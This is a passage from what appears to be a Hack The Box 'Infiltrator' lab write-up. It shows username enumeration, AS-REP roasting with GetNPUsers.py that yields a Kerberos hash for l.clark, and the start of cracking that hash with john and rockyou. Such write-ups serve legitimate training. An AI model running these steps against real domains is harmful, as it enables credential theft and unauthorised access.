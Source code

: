 ```
a.walker@infiltrator.htb
marcus_harris@infiltrator.htb
marcus.harris@infiltrator.htb
m_harris@infiltrator.htb
m.harris@infiltrator.htb
lauren_clark@infiltrator.htb
lauren.clark@infiltrator.htb
l_clark@infiltrator.htb
l.clark@infiltrator.htb
ethan_rodriguez@infiltrator.htb
ethan.rodriguez@infiltrator.htb
e_rodriguez@infiltrator.htb
e.rodriguez@infiltrator.htb
```

Let's come to the domain service, the port 88 has the kerberos-sec service, let's try to enumerate domain users
```
GetNPUsers.py infiltrator.htb/ -no-pass -usersfile user.txt -dc-ip 10.10.11.31

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User d.anderson@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User o.martinez@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User k.turner@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User a.walker@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User m.harris@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$l.clark@infiltrator.htb@INFILTRATOR.HTB:c847167320de38487b4a8d1a060be8be$37eb4474261c7e6b5d08e13f69ccb541c3c9f78482bfceb5a28679eca8babbc23a7526e9710adb9d0107470e016a298205b6a0428a8d31fe834532ebaa78418885ca68cd29fb6672047f03545a93654c585518a0be403ecb0bc1f1fc5d206936081cbf167b330fd34a72772431f95447c6ae660f47dab87a85e622f753561598891e6496254dadb3309c918312bb6c0388ef9804d896846fcca38052389eb08bc7f6ded41e8082672de245ce7ce78e23375e4ade7a7d8a520fe2b13d40b5dd5a8851bf550ca322d1273e2e70f0146efed1b5af2d0152892739f90a228dedc00b52c98e6de55dde07e849932fb3b315afb89b
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User e.rodriguez@infiltrator.htb doesn't have UF_DONT_REQUIRE_PREAUTH set

```
Then we successfully find the valid user `l.clark@infiltrator.htb`
And also, we can try to brute crack that hash with john
```
john clark.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 ASIMD 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```